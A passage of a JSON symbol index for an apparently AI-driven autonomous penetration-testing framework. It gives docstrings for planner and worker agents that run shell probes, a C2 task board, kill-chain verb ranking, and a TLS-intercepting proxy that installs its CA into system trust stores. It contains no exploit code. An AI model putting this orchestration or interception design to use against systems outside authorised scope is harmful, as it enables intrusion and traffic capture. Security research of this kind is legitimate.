everything\nwithout ever mutating the parents.", "kind": "method", "line": 7550, "name": "spawn_task", "signature": "def spawn_task(self, goal, source_task_ids, description)"}, {"doc": "Fleet view: every task with live intent/fact/finding counters.\n\nCross-task parity with the orchestration list_tasks tool: one\ncall yields the operator view of the whole campaign without\ntouching each task's store by hand.", "kind": "method", "line": 7600, "name": "list_tasks", "signature": "def list_tasks(self)"}, {"doc": "Pause another task from here (cross-task control).", "kind": "method", "line": 7628, "name": "pause_task", "signature": "def pause_task(self, task_id, reason)"}, {"doc": "Resume a paused task from here (cross-task control).", "kind": "method", "line": 7639, "name": "resume_task", "signature": "def resume_task(self, task_id)"}, {"doc": "Graph overview of another task (get_task_graph parity).", "kind": "method", "line": 7649, "name": "task_graph", "signature": "def task_graph(self, task_id)"}, {"doc": "Findings of another task with severity, status and report size.", "kind": "method", "line": 7655, "name": "task_findings", "signature": "def task_findings(self, task_id)"}, {"doc": "Worker traces of another task, keyword-filtered when asked.", "kind": "method", "line": 7674, "name": "task_traces", "signature": "def task_traces(self, task_id, query, limit)"}, {"doc": "Full node view of another task (get_task_node_detail parity).", "kind": "method", "line": 7683, "name": "task_node_detail", "signature": "def task_node_detail(self, task_id, node_id)"}, {"doc": "Write the narrative report of another task's finding.", "kind": "method", "line": 7689, "name": "update_finding_report", "signature": "def update_finding_report(self, task_id, finding_id, report)"}, {"doc": "Return activity records after a line cursor (SSE resume parity).\n\nThe cursor is a 0-based line index over the task activity JSONL,\nwhich only ever appends, so an SSE client that reconnects with\n``id``/``cursor`` resumes exactly where it stopped.\n\nArgs:\n    task_id: Task whose activity stream is read.\n    cursor: Line index to resume from (0 = beginning).\n    batch: Maximum records returned per call.\n\nReturns:\n    Dict with ``items``, the next ``cursor`` and current ``total``.", "kind": "method", "line": 7701, "name": "broadcast_events", "signature": "def broadcast_events(self, task_id, cursor, batch)"}, {"doc": "Inject human steering hint read by the next planner round.\n\nBeyond the hint node, records an explicit planner trigger naming\nthe new hint so the round is visibly fired by it instead of\nleaving the planner to discover the hint inside the overview.", "kind": "method", "line": 7734, "name": "add_hint", "signature": "def add_hint(self, task_id, text)"}, {"doc": "Directly inject high-priority intent like the planner main-agent add_intent.", "kind": "method", "line": 7752, "name": "add_intent", "signature": "def add_intent(self, task_id, summary, asset_ids, parent_ids, priority)"}, {"doc": "Replace/append decomposed objectives like set_goals; wakes the task.", "kind": "method", "line": 7777, "name": "set_goals", "signature": "def set_goals(self, task_id, specs)"}, {"doc": "Edit a goal node like the goals manager.", "kind": "method", "line": 7794, "name": "edit_goal", "signature": "def edit_goal(self, task_id, goal_id, text)"}, {"doc": "Delete a goal node; done tasks with no goals left stay done.", "kind": "method", "line": 7806, "name": "delete_goal", "signature": "def delete_goal(self, task_id, goal_id)"}, {"doc": "Estimate hard-delete cascade without mutating anything.\n\nArgs:\n    task_id: Task owning the intent.\n    intent_id: Intent node id.\n\nReturns:\n    Dict with intent_id, removable ids, shared (kept) ids.", "kind": "method", "line": 7817, "name": "preview_delete_intent", "signature": "def preview_delete_intent(self, task_id, intent_id)"}, {"doc": "Delete an intent in soft (fake) or hard (true) mode.\n\nSoft keeps the node and all outputs/lineage, marking it deleted\nwith the reason. Hard physically removes the intent plus its\nexclusively-owned descendants, keeps shared nodes and goals,\narchives the usage snapshot by date and notifies the planner\nto replan without it.\n\nArgs:\n    task_id: Task owning the intent.\n    intent_id: Intent node id.\n    mode: ``soft`` (default) or ``hard``.\n    reason: Operator reason (required).\n\nReturns:\n    Dict with mode, intent_id, removed/shared ids and reason.", "kind": "method", "line": 7840, "name": "delete_intent", "signature": "def delete_intent(self, task_id, intent_id, mode, reason)"}, {"doc": "Return intent plus exclusive descendants along yields/derived_from/spawns.", "kind": "method", "line": 7949, "name": "_intent_subtree", "signature": "def _intent_subtree(self, graph, intent_id)"}, {"doc": "Split reachable ids into exclusive (removable) vs shared (kept).", "kind": "method", "line": 7964, "name": "_split_exclusive", "signature": "def _split_exclusive(self, graph, reachable)"}, {"doc": "Pause a runnable intent like the lazy worker interrupt.\n\nOnly pending/open/running intents pause; the worker picks the\nintent back up via resume or a direct operator message.\n\nArgs:\n    task_id: Task owning the intent.\n    intent_id: Intent node id.\n\nReturns:\n    True when the intent moved to paused.", "kind": "method", "line": 7985, "name": "pause_intent", "signature": "def pause_intent(self, task_id, intent_id)"}, {"doc": "Resume a paused intent back to the claimable queue.\n\nArgs:\n    task_id: Task owning the intent.\n    intent_id: Intent node id.\n\nReturns:\n    True when the intent moved back to open.", "kind": "method", "line": 8010, "name": "resume_intent", "signature": "def resume_intent(self, task_id, intent_id)"}, {"doc": "Continue a paused worker intent with a human message.\n\nMirrors the lazy sendWorkerMessage flow within the synchronous\nengine: the message lands in the activity trace as the next\nworker turn input, the intent reopens for the next round, and\nthe planner gets an explicit trigger naming it.\n\nArgs:\n    task_id: Task owning the intent.\n    intent_id: Paused intent node id.\n    message: Operator message (1..4000 chars, required).\n    request_id: Idempotency key (1..128 chars, optional).\n\nReturns:\n    Dict with intent_id, state and request_id.", "kind": "method", "line": 8033, "name": "send_worker_message", "signature": "def send_worker_message(self, task_id, intent_id, message, request_id)"}, {"doc": "Declare the whole task complete like goal_met (weighted, audited).", "kind": "method", "line": 8081, "name": "goal_met", "signature": "def goal_met(self, task_id, reason)"}, {"doc": "Operator-visible fact write like recordFact.", "kind": "method", "line": 8091, "name": "record_fact", "signature": "def record_fact(self, task_id, text, evidence, intent_id)"}, {"doc": "Record an operator retest verdict on one finding.\n\nArgs:\n    task_id: Task owning the finding.\n    finding_id: Finding node id.\n    verdict: One of ``reproduced``, ``fixed``, ``inconclusive``.\n    note: Optional evidence note.\n\nReturns:\n    Dict with finding_id and the stored verdict.\n\nRaises:\n    KeyError: Unknown finding id.\n    ValueError: Unsupported verdict.", "kind": "method", "line": 8098, "name": "record_verdict", "signature": "def record_verdict(self, task_id, finding_id, verdict, note)"}, {"doc": "Fuse loop artefacts into world model, findings and objectives.\n\nRuns the bidirectional bridge (``modules.lazy_bridge.sync_all``):\nfacts and services flow into ``sessions/world_model.json``,\nfindings into the campaign lifecycle, traffic into the recorder\nindex and tasks to the C2 board. Throttled so long runs do not\nre-mirror every round; forced at terminal status.", "kind": "method", "line": 8139, "name": "_sync_intel", "signature": "def _sync_intel(self, task_id, activity, force)"}, {"doc": "Run one orchestrated round invoking every subsystem in order.\n\nSingle path, no parallel loops: scope-check, enrich, triggers/scheduler,\nplanner (constraint-gated, LLM-assisted), frontier claim, worker tools\n(guard+intercept+traffic), finding report, retest, goals, compaction\nminor/major, evidence/traffic archive, notify fan-out.", "kind": "method", "line": 8183, "name": "run_round", "signature": "def run_round(self, task_id, workers, executor, pool)"}, {"doc": "Build planner triggers from activity after scheduler watermark.", "kind": "method", "line": 8432, "name": "_drain_triggers", "signature": "def _drain_triggers(self, task_id, graph)"}, {"doc": "Enrich untested scoped assets and record facts for the planner.", "kind": "method", "line": 8481, "name": "_auto_enrich", "signature": "def _auto_enrich(self, task_id, graph, activity, limit)"}, {"doc": "Automatically retest pending findings to a verdict.", "kind": "method", "line": 8517, "name": "_auto_retest", "signature": "def _auto_retest(self, task_id, graph, activity, traffic, executor, limit)"}, {"doc": "Task-level settlement: one bounded LLM turn persisted as a fact.\n\nPort of the final wrap-up round: at budget/timeout the engine\nwrites back what it learned so the next operator or spawned task\nstarts from knowledge, not a cold graph. Without a pool it is a\nno-op and the archived graph still carries everything.", "kind": "method", "line": 8537, "name": "_wrapup_summary", "signature": "def _wrapup_summary(self, task_id, reason)"}, {"doc": "Judge the task against its original goal, independent of step claims.\n\nPorts the evaluator idea: every subtask may report success while the\nuser objective stands unmet. The verdict derives from graph evidence\n(findings, coverage, facts), never from worker self-reports; an LLM\nturn only upgrades the wording when a pool exists. The report lands\nat ``sessions/lazy/report_<task>.md`` for the operator and the dataset.\n\nReturns:\n    Verdict dict with goal, verdict, coverage, counts and path.", "kind": "method", "line": 8572, "name": "_evaluate_goal", "signature": "def _evaluate_goal(self, task_id)"}, {"doc": "Drive rounds until goals met, frontier drains, or budget exhausts.", "kind": "method", "line": 8660, "name": "run", "signature": "def run(self, task_id, max_rounds, workers, executor, timeout_sec)"}, {"doc": "Mark goal met with finding/fact evidence like the planner prove_goal.\n\nRefuses quantitative goals (coverage %, N flags) unless the\noverview actually satisfies them — never stamp early.", "kind": "method", "line": 8843, "name": "prove_goal", "signature": "def prove_goal(self, task_id, goal_id, evidence_id, reason)"}, {"doc": "Auto-prove goals whose text appears in a finding.", "kind": "method", "line": 8876, "name": "_check_goals", "signature": "def _check_goals(self, task_id, graph, activity)"}, {"doc": "Report whether every goal node is done.", "kind": "method", "line": 8883, "name": "_goals_met", "signature": "def _goals_met(self, task_id)"}, {"doc": "Delete a task record plus every store file scoped to it.\n\nMatches file names carrying the task id as a full token so\n``t0001`` never sweeps files of ``t00010``.\n\nArgs:\n    task_id: Task to remove.\n\nReturns:\n    Dict with deleted flag and removed file names.", "kind": "method", "line": 8889, "name": "delete_task", "signature": "def delete_task(self, task_id)"}, {"doc": "Start the shared recorder proxy and apply its trust environment.\n\nArgs:\n    host: Bind address (default 127.0.0.1).\n    port: Bind port (default 8899).\n    task_id: Task tag stored with each exchange.\n    trust: Also install the CA into the system trust store,\n        prompting sudo only when the anchor is missing or stale.\n    upstream: Optional ``[user:pass@]host:port`` proxy to chain.\n\nReturns:\n    Proxy status dict including the CA path and trust outcome.", "kind": "method", "line": 8923, "name": "proxy_start", "signature": "def proxy_start(self, host, port, task_id, trust, upstream)"}, {"doc": "Stop the recorder proxy and clear its trust environment.", "kind": "method", "line": 8959, "name": "proxy_stop", "signature": "def proxy_stop(self)"}, {"doc": "Return recorder proxy state (running, address, CA, exchanges).", "kind": "method", "line": 8967, "name": "proxy_status", "signature": "def proxy_status(self)"}, {"doc": "Return the environment overrides that route tools via proxy.", "kind": "method", "line": 8973, "name": "proxy_env", "signature": "def proxy_env(self)"}, {"doc": "Cap concurrently running tasks; 0 disables admission control.\n\nArgs:\n    limit: Max running tasks.\n\nReturns:\n    The stored cap.", "kind": "method", "line": 8982, "name": "set_concurrency", "signature": "def set_concurrency(self, limit)"}, {"doc": "Mirror loop task states into the C2 Kanban board (best effort).", "kind": "method", "line": 8994, "name": "_sync_c2_board", "signature": "def _sync_c2_board(self, task_ids)"}, {"doc": "Return whether a task may run now, queueing it when capped.\n\nArgs:\n    task_id: Task requesting a slot.\n\nReturns:\n    Dict with admitted flag; queued tasks carry active/cap counts.", "kind": "method", "line": 9003, "name": "admission_check", "signature": "def admission_check(self, task_id)"}, {"doc": "Run queued tasks FIFO while the concurrency cap allows.\n\nArgs:\n    max_tasks: Max queued tasks promoted in one pass.\n\nReturns:\n    Per-task run summaries.", "kind": "method", "line": 9022, "name": "drain_queue", "signature": "def drain_queue(self, max_tasks)"}, {"doc": "Mirror new recorder exchanges into the task traffic log.\n\nA per-task rowid watermark keeps repeated rounds cheap; the\nrecorder exchange id rides in meta so ``lazy_traffic body`` can\nfetch stored request/response bodies from the proxy store.\n\nArgs:\n    task_id: Task receiving the mirrored rows.\n    limit: Max rows per ingest page.\n\nReturns:\n    Number of freshly ingested exchanges.", "kind": "method", "line": 9050, "name": "ingest_proxy_traffic", "signature": "def ingest_proxy_traffic(self, task_id, limit)"}, {"doc": "Full-text search proxy bodies scoped to one task's exchanges.\n\nArgs:\n    task_id: Task whose ingested exchanges are searched.\n    query: Phrase to search for.\n    limit: Max hits.\n\nReturns:\n    Hits with exchange_id, url, status, host and snippet.", "kind": "method", "line": 9104, "name": "search_proxy_body", "signature": "def search_proxy_body(self, task_id, query, limit)"}, {"doc": "Sweep recorder exchanges older than the retention window.\n\nRuns at most once every ``proxy_gc_interval_sec``; the last run\nstamp lives in the shared lazy store so restarts do not resweep.\n\nReturns:\n    Removed exchange count (0 when skipped).", "kind": "method", "line": 9130, "name": "_maybe_proxy_gc", "signature": "def _maybe_proxy_gc(self)"}, {"doc": "Import traffic archives dropped in the recorder inbox.\n\nReturns:\n    Number of imported exchanges (0 when the inbox is empty).", "kind": "method", "line": 9156, "name": "_maybe_import_inbox", "signature": "def _maybe_import_inbox(self)"}, {"doc": "Report an available update at most once per interval.\n\nReturns:\n    Check summary (empty when skipped).", "kind": "method", "line": 9176, "name": "_maybe_selfupdate_check", "signature": "def _maybe_selfupdate_check(self)"}, {"doc": "Export the task's proxy exchanges next to its archive.\n\nArgs:\n    task_id: Task whose exchanges are exported.\n\nReturns:\n    Export summary (``exported`` 0 when the task has no traffic).", "kind": "method", "line": 9196, "name": "export_task_traffic", "signature": "def export_task_traffic(self, task_id)"}, {"doc": "Freeze every task artefact into a hash-manifested zip package.\n\nThe package is the audit hand-off: task registry, exploration\ngraph (goals, intents, facts, findings), activity trace, tool\ntraffic, rendered report and the per-task traffic archive. Each\nfile's SHA-256 is recorded in ``manifest.json`` so a reviewer can\nprove the package was not altered after export.\n\nArgs:\n    task_id: Task whose artefacts are frozen.\n    dest: Optional destination zip path; defaults to\n        ``sessions/lazy/evidence_<task_id>.zip``.\n\nReturns:\n    Dict with the package path and the number of frozen files.", "kind": "method", "line": 9225, "name": "export_evidence", "signature": "def export_evidence(self, task_id, dest)"}, {"doc": "Render the severity-ranked report to Markdown, JSON or CSV.\n\nArgs:\n    task_id: Task to render.\n    path: Destination file (defaults under the lazy store).\n    fmt: ``md`` (default), ``json`` or ``csv``.\n\nReturns:\n    Dict with path, findings count and format.", "kind": "method", "line": 9284, "name": "export_findings_report", "signature": "def export_findings_report(self, task_id, path, fmt)"}, {"doc": "Return full inspectable state for one task.", "kind": "method", "line": 9380, "name": "status", "signature": "def status(self, task_id)"}, {"doc": "Return planner-facing overview plus coverage and scope.\n\nFindings ride along in full (they are the highest-value, lowest\nvolume product) so every round sees every confirmed vuln without\nan extra list call; host lists stay collapsed to a count.", "kind": "method", "line": 9400, "name": "graph_overview", "signature": "def graph_overview(self, task_id)"}, {"doc": "Full finding rows: severity-first, assets readable.", "kind": "method", "line": 9433, "name": "_finding_list", "signature": "def _finding_list(self, graph)"}, {"doc": "Paginated exploration timeline like the lazy broadcast board.\n\nEach row carries its id, upstream/downstream neighbours and\nanchored assets inline so expansion needs no extra request.\nSearch matches text, source and ``#id`` / plain-id forms.\n\nArgs:\n    task_id: Task to read.\n    kinds: Node kinds to keep (empty means all).\n    query: Keyword or ``#41`` / ``41`` node-id filter.\n    order: ``desc`` (newest first, live position) or ``asc``.\n    page: 1-based page number.\n    per_page: Rows per page (1..100).\n    states: Node states to keep (empty means all).\n\nReturns:\n    Dict with items, total, page, per_page, has_more and days.", "kind": "method", "line": 9462, "name": "broadcast", "signature": "def broadcast(self, task_id, kinds, query, order, page, per_page, states)"}, {"doc": "Build one self-contained broadcast row for a node.", "kind": "method", "line": 9537, "name": "_broadcast_row", "signature": "def _broadcast_row(self, graph, node)"}, {"doc": "Return task graphs as ForceGraph-ready nodes/links.\n\nExploration nodes keep their kind/state/priority; asset nodes\nride along with their kind/value; exploration edges keep their\nkind and anchors become ``anchors`` links. The Intel/attack\nForceGraph views and the broadcast board consume this shape\ndirectly, so the operator sees the same topology the planner\nranks on.\n\nArgs:\n    task_id: Task to export.\n\nReturns:\n    Dict with ``nodes`` and ``links`` lists.", "kind": "method", "line": 9586, "name": "loop_graph", "signature": "def loop_graph(self, task_id)"}, {"doc": "Rank exploration topology to steer planner actions.\n\nHubs are the most connected exploration nodes (attention\nconcentrates there); islands are assets no intent anchored yet;\nsuggested orders untested scoped assets by anchor-degree so the\nplanner probes the best-connected surface first instead of id\norder. Mirrors the ForceGraph hub/island lenses.\n\nArgs:\n    task_id: Task to analyse.\n    top: Max entries per section.\n\nReturns:\n    Dict with ``hubs``, ``islands``, ``suggested`` and ``stats``.", "kind": "method", "line": 9655, "name": "graph_context", "signature": "def graph_context(self, task_id, top)"}, {"kind": "function", "line": 3057, "name": "_signature", "signature": "def _signature(text)"}, {"kind": "function", "line": 3279, "name": "sink", "signature": "def sink(text)"}, {"kind": "function", "line": 4033, "name": "_work", "signature": "def _work()"}, {"kind": "function", "line": 4075, "name": "_reader", "signature": "def _reader()"}, {"doc": "Run one shell probe/verb through scope, guard and audit.\n\nWith ``background`` the command is launched as a tracked job\n(job_status/job_output) instead of blocking the model turn.", "kind": "function", "line": 4162, "name": "run_command", "signature": "def run_command(command, background)"}, {"doc": "Persist one observed or inferred fact on the exploration graph.", "kind": "function", "line": 4187, "name": "record_fact", "signature": "def record_fact(text)"}, {"doc": "Record a verified vulnerability with its evidence.", "kind": "function", "line": 4196, "name": "report_finding", "signature": "def report_finding(name, evidence, severity)"}, {"doc": "Search captured command/traffic records by keyword.", "kind": "function", "line": 4207, "name": "traffic_search", "signature": "def traffic_search(query)"}, {"doc": "Compact exploration overview: intents, facts, findings.", "kind": "function", "line": 4220, "name": "graph_state", "signature": "def graph_state()"}, {"doc": "Open a persistent bash session for multi-step shell work.", "kind": "function", "line": 4235, "name": "shell_open", "signature": "def shell_open()"}, {"doc": "Run one guarded command in the persistent shell session.", "kind": "function", "line": 4239, "name": "shell_send", "signature": "def shell_send(command)"}, {"doc": "Report whether one background job is still running.", "kind": "function", "line": 4243, "name": "job_status", "signature": "def job_status(job_id)"}, {"doc": "Return the tail of one background job's output.", "kind": "function", "line": 4251, "name": "job_output", "signature": "def job_output(job_id)"}, {"kind": "function", "line": 4689, "name": "sink", "signature": "def sink(text)"}, {"kind": "function", "line": 5219, "name": "_worker", "signature": "def _worker(work)"}, {"kind": "function", "line": 5393, "name": "_find", "signature": "def _find(value)"}, {"kind": "function", "line": 5399, "name": "_union", "signature": "def _union(left, right)"}, {"kind": "function", "line": 5994, "name": "_work", "signature": "def _work()"}, {"kind": "function", "line": 8287, "name": "_run_one", "signature": "def _run_one(index_node)"}, {"kind": "function", "line": 8234, "name": "stage_enabled", "signature": "def stage_enabled(_name)"}, {"kind": "function", "line": 8748, "name": "_stage_enabled", "signature": "def _stage_enabled(_name)"}]}, {"doc": "LAZY chat mentions with multi-type search and scroll pagination.  Faithful to 0.3.12 chat @ references without Postgres or Go. Kinds cover findings, companies and asset flavours. Search matches id exactly first, then label text literally. Pages use an opaque cursor so scroll loading never re-skips earlier rows. Message tokens use English labels only and the server trusts type plus numeric id.", "id": "modules/lazy_mentions.py", "kind": "module", "label": "lazy_mentions.py", "language": "py", "sha256": "9ebdc56b59383a79", "symbol_count": 15, "symbols": [{"doc": "Lightweight search hit, details re-read on send.", "kind": "class", "line": 35, "name": "LazyMention", "signature": "class LazyMention"}, {"doc": "Single scroll page with optional cursor.", "kind": "class", "line": 45, "name": "LazyMentionPage", "signature": "class LazyMentionPage"}, {"doc": "Opaque page position is stale, caller must search again.", "kind": "class", "line": 52, "name": "InvalidCursor", "signature": "class InvalidCursor(ValueError)"}, {"doc": "Encode scroll position as opaque cursor.", "kind": "function", "line": 56, "name": "_encode_cursor", "signature": "def _encode_cursor(last_id, last_kind, exact, scope, query)"}, {"doc": "Validate cursor against current search scope.", "kind": "function", "line": 64, "name": "_decode_cursor", "signature": "def _decode_cursor(cursor, scope, query)"}, {"doc": "Case-insensitive literal match treating % _ \\ as text.", "kind": "function", "line": 84, "name": "_literal_match", "signature": "def _literal_match(haystack, query)"}, {"doc": "Gather matches from lazy stores without external services.", "kind": "function", "line": 91, "name": "_collect_candidates", "signature": "def _collect_candidates(kind, query)"}, {"doc": "Search graph and workflow findings by id or text.", "kind": "function", "line": 108, "name": "_finding_hits", "signature": "def _finding_hits(query)"}, {"doc": "Search company scopes by id, name or key.", "kind": "function", "line": 142, "name": "_company_hits", "signature": "def _company_hits(query)"}, {"doc": "Search asset graph by id or identifying text.", "kind": "function", "line": 167, "name": "_asset_hits", "signature": "def _asset_hits(kind, query)"}, {"doc": "Resolve lazy store glob base.", "kind": "function", "line": 186, "name": "_store_glob", "signature": "def _store_glob(pattern)"}, {"doc": "Search one scroll page of mention candidates.\n\nArgs:\n    kind: Optional kind filter, empty means all types.\n    query: Optional id exact or literal text filter.\n    cursor: Opaque page position from the previous page.\n\nReturns:\n    Page with up to 20 items and a next cursor when more remain.\n\nRaises:\n    ValueError: When kind is unsupported or query too long.\n    InvalidCursor: When cursor is stale.", "kind": "function", "line": 193, "name": "search_mentions_page", "signature": "def search_mentions_page(kind, query, cursor)"}, {"doc": "Parse @[kind#id] tokens trusting type plus numeric id only.\n\nArgs:\n    message: Chat text with mention tokens.\n\nReturns:\n    Deduped reference list capped at 10 entries.\n\nRaises:\n    ValueError: When an id is invalid or mentions exceed budget.", "kind": "function", "line": 237, "name": "parse_mentions", "signature": "def parse_mentions(message)"}, {"doc": "Append server-read snapshots for referenced records as data.\n\nArgs:\n    message: Chat text with mention tokens.\n\nReturns:\n    Original text plus a snapshot block, unchanged when no refs.", "kind": "function", "line": 268, "name": "compose_message", "signature": "def compose_message(message)"}, {"doc": "Read one referenced record by type and id.", "kind": "function", "line": 296, "name": "_load_snapshot", "signature": "def _load_snapshot(kind, ref_id)"}]}, {"doc": "Organic orchestrator training from loop usage.  Mirrors how the detection oracle learns: per-command outcomes already flow online to MoE/Q-learning via ``loop_ai_bridge.record_step``; this module is the batch counterpart of ``DetectionFeed.adjust_from_feedback``. It reads the routing log written by :mod:`modules.lazy_intel` and produces two artefacts under ``sessions/lazy/``:  - ``verb_priors.json`` — per-(phase, verb) success rates. The planner consults them through :func:`verb_prior` to rank candidate verbs, so verbs that historically work for a phase float up without any manual tuning. Cold verbs (fewer than ``MIN_ATTEMPTS`` samples) keep their default order instead of being punished for having no history. - ``orchestrator_dataset.jsonl`` — instruction-tuning rows (instruction/input/output/reward/meta) exported by :func:`export_dataset` for TopoSwarm ``--finetune`` runs. Rows only exist when the operator actually ran the loop: usage writes the dataset, nobody hand-crafts it.  Stdlib only. Never raises; all entry points degrade gracefully.", "id": "modules/lazy_orchestrator_feedback.py", "kind": "module", "label": "lazy_orchestrator_feedback.py", "language": "py", "sha256": "519dbd06f93caa0a", "symbol_count": 11, "symbols": [{"doc": "Return priors path, ensuring the directory exists.", "kind": "function", "line": 41, "name": "_priors_path", "signature": "def _priors_path()"}, {"doc": "Return dataset path, ensuring the directory exists.", "kind": "function", "line": 47, "name": "_dataset_path", "signature": "def _dataset_path()"}, {"doc": "Score one outcome like the online trainer: 1 productive, 0 not.", "kind": "function", "line": 53, "name": "_reward_of", "signature": "def _reward_of(outcome)"}, {"doc": "Fold routing outcomes into per-(phase, stack, verb) success priors.\n\nStacks fingerprint the target services, so repeat engagements against\nthe same stack learn faster while unseen stacks fall back to global\npriors. Stored shape per phase is ``{\"_global\": {...}, \"_stacks\":\n{stack: {...}}}``; legacy flat files migrate on load.\n\nArgs:\n    limit: Max routing records scanned from the tail.\n\nReturns:\n    Summary with verbs updated and outcomes seen.", "kind": "function", "line": 61, "name": "adjust_from_usage", "signature": "def adjust_from_usage(limit)"}, {"doc": "Migrate legacy flat priors to the global/stacks shape.", "kind": "function", "line": 129, "name": "_normalize", "signature": "def _normalize(priors)"}, {"doc": "Return cached priors, reloading from disk when stale.", "kind": "function", "line": 144, "name": "_load_priors", "signature": "def _load_priors()"}, {"doc": "Return the success prior for one (phase, stack, verb) triple.\n\nStack-specific priors win when warm; otherwise the global pair\napplies. Cold pairs return None so default order is preserved.\n\nArgs:\n    phase: Kill-chain phase.\n    verb: Shell verb.\n    stack: Target stack fingerprint.\n\nReturns:\n    Prior dict with success/total/rate, or None when cold.", "kind": "function", "line": 162, "name": "verb_prior", "signature": "def verb_prior(phase, verb, stack)"}, {"doc": "Order verbs by learned success rate, stable for cold verbs.\n\nArgs:\n    phase: Kill-chain phase the verbs serve.\n    verbs: Candidate verb names in default order.\n    stack: Target stack fingerprint for stack-specific priors.\n\nReturns:\n    Verbs with warm priors first (rate desc), cold verbs untouched\n    after them in their original relative order.", "kind": "function", "line": 189, "name": "rank_verbs", "signature": "def rank_verbs(phase, verbs, stack)"}, {"doc": "Reorder resolved step lines by stack-aware verb priors.\n\nArgs:\n    steps: Command lines in planner order.\n    stack: Target stack fingerprint.\n\nReturns:\n    Steps with warm-prior verbs first, order otherwise preserved.", "kind": "function", "line": 213, "name": "order_steps", "signature": "def order_steps(steps, stack)"}, {"doc": "Export instruction-tuning rows joined from decisions + outcomes.\n\nEach row pairs the operator-visible intent (instruction/input) with\nthe command the loop chose (output) and the reward it earned, so a\nTopoSwarm ``--finetune`` run learns orchestration from real usage.\n\nArgs:\n    out: Destination path. Defaults to the store dataset file.\n    limit: Max routing records scanned from the tail.\n\nReturns:\n    Summary with rows written and destination.", "kind": "function", "line": 238, "name": "export_dataset", "signature": "def export_dataset(out, limit)"}, {"kind": "function", "line": 228, "name": "_key", "signature": "def _key(line)"}]}, {"doc": "Recording HTTP/HTTPS proxy for the autonomous loop.  Every exchange a worker (or any tool the operator routes) sends through this proxy is persisted with the existing :class:`modules.traffic_recorder.TrafficRecorder`: file-tree bodies plus SQLite index. HTTPS is terminated with a locally generated CA so request and response bodies are captured for findings/evidence; the CA certificate path is exported so curl/requests/python trust it.  Automation contract: ``LazyLoopEngine.proxy_start()`` starts one shared recorder instance; ``auto_loop`` starts it when ``proxy_autostart`` is on and points the worker environment at it; every round ingests new exchanges into the task traffic log so ``lazy_traffic`` and finding evidence see proxy traffic like any bash execution.  Fail-open policy: recorder or TLS problems never kill the operator's traffic; the proxy answers 502 and keeps serving.", "id": "modules/lazy_proxy.py", "kind": "module", "label": "lazy_proxy.py", "language": "py", "sha256": "4e7f2a40e8b46119", "symbol_count": 56, "symbols": [{"doc": "Return True when private/loopback targets stay reachable.\n\nThe recorder proxy is a pentest tool: lab targets live on\nRFC1918/loopback. Blocking them by default would break the core\nworkflow, so they stay allowed unless the operator sets\n``LAZY_PROXY_ALLOW_PRIVATE=0``. Cloud metadata endpoints are\nalways denied regardless of this flag.", "kind": "function", "line": 93, "name": "_proxy_allow_private", "signature": "def _proxy_allow_private()"}, {"doc": "Return True only when the operator explicitly opts into no-verify TLS.", "kind": "function", "line": 105, "name": "_proxy_insecure_tls", "signature": "def _proxy_insecure_tls()"}, {"doc": "Return an extra CA bundle path for upstream verification, if configured.", "kind": "function", "line": 110, "name": "_proxy_trust_ca", "signature": "def _proxy_trust_ca()"}, {"doc": "Return True for known cloud instance-metadata service addresses.", "kind": "function", "line": 115, "name": "_is_metadata_ip", "signature": "def _is_metadata_ip(value)"}, {"doc": "Return True for well-known cloud metadata DNS names.", "kind": "function", "line": 129, "name": "_is_metadata_hostname", "signature": "def _is_metadata_hostname(host)"}, {"doc": "Validate host syntax without trusting its value for routing.", "kind": "function", "line": 141, "name": "_host_syntax_valid", "signature": "def _host_syntax_valid(host)"}, {"doc": "Resolve host to literal IPs; empty list when DNS is unavailable.", "kind": "function", "line": 157, "name": "_resolved_ips", "signature": "def _resolved_ips(host)"}, {"doc": "Validate a proxy target derived from client-controlled data.\n\nRaises:\n    ValueError: When the target is malformed or denied by SSRF policy.\n\nPolicy: scheme must be http/https, port 1-65535, host syntax valid,\n``0.0.0.0``/unspecified rejected, cloud metadata hosts/IPs always\nrejected (including DNS-resolved addresses), private/loopback allowed\nonly when ``LAZY_PROXY_ALLOW_PRIVATE`` is on.", "kind": "function", "line": 171, "name": "_validate_proxy_target", "signature": "def _validate_proxy_target(host, port, scheme)"}, {"doc": "Build a verifying client TLS context for upstream connections.\n\nHostname checking stays on with ``CERT_REQUIRED`` and TLS 1.2 floor.\nAn operator bundle from ``LAZY_PROXY_TRUST_CA`` is loaded when set.\nAn explicit ``LAZY_PROXY_INSECURE_TLS=1`` opt-in returns an\nunverified context (logged once); request data can never enable it.", "kind": "function", "line": 224, "name": "_upstream_tls_context", "signature": "def _upstream_tls_context(server_hostname)"}, {"doc": "Return True for loopback/private literals or localhost.", "kind": "function", "line": 261, "name": "_is_lab_host", "signature": "def _is_lab_host(host)"}, {"doc": "Return an HTTPS connection, verifying by default.\n\nPublic targets always verify. Lab (loopback/private) targets with\nself-signed certs fall back to unverified only to preserve the\nrecorder workflow, with a one-time warning; the fallback is gated\nby operator policy, never by request data.", "kind": "function", "line": 273, "name": "_https_connection", "signature": "def _https_connection(host, port)"}, {"doc": "Return the shared recorder directory under the repository.", "kind": "function", "line": 284, "name": "_default_traffic_dir", "signature": "def _default_traffic_dir()"}, {"doc": "Parse ``[user:pass@]host:port`` into an upstream proxy spec.", "kind": "function", "line": 289, "name": "_parse_upstream", "signature": "def _parse_upstream(spec)"}, {"doc": "Build a Proxy-Authorization header from ``user:pass``.", "kind": "function", "line": 307, "name": "_upstream_auth_header", "signature": "def _upstream_auth_header(auth)"}, {"doc": "Normalize a host into a filesystem-safe certificate name.", "kind": "function", "line": 317, "name": "_cert_stem", "signature": "def _cert_stem(host)"}, {"doc": "Return the first existing system trust anchor directory and refresh command.", "kind": "function", "line": 322, "name": "detect_trust_target", "signature": "def detect_trust_target()"}, {"doc": "Return True when the system anchor already holds this CA.", "kind": "function", "line": 330, "name": "ca_trusted", "signature": "def ca_trusted(ca_path)"}, {"doc": "Run a privileged command, prompting for sudo only when needed.", "kind": "function", "line": 342, "name": "_run_root", "signature": "def _run_root(argv)"}, {"doc": "Return user NSS database directories (Firefox profiles + Chrome).", "kind": "function", "line": 349, "name": "detect_nss_profiles", "signature": "def detect_nss_profiles()"}, {"doc": "Install the recorder CA into user NSS databases via certutil.\n\nNSS stores are user-owned, so no sudo is required; the command is a\nno-op when certutil or the profiles are missing.\n\nArgs:\n    ca_path: CA certificate PEM path.\n    runner: Injection point for certutil execution (tests).\n    profiles: Explicit NSS directories (defaults to auto-discovery).\n\nReturns:\n    Dict with installed/profiles counts and reason; never raises.", "kind": "function", "line": 364, "name": "install_ca_nss", "signature": "def install_ca_nss(ca_path, runner, profiles)"}, {"doc": "Install the recorder CA into the 